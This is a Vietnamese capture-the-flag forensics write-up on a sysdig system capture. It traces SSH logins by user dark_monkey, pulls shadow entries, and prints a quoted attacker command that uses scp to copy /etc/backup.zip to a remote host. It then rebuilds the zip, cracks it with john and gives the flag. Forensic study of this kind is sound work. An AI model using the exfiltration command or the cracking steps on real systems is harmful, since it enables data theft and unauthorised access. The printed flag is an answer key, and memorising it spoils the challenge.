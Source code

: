 # StratoMonk 
![image](images/img1.png)

> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey

![image](images/img2.png)

## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được

![image](images/img3.png)

Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow

![image](images/img4.png)

## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH

![image](images/img5.png)

`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |

![image](images/img6.png)

Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip

![image](images/img7.png)

Dùng john để crack 

![image](images/img8.png)

Dùng pass đó giải nén ta được phần 3 của flag

![image](images/img9.png)

```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```
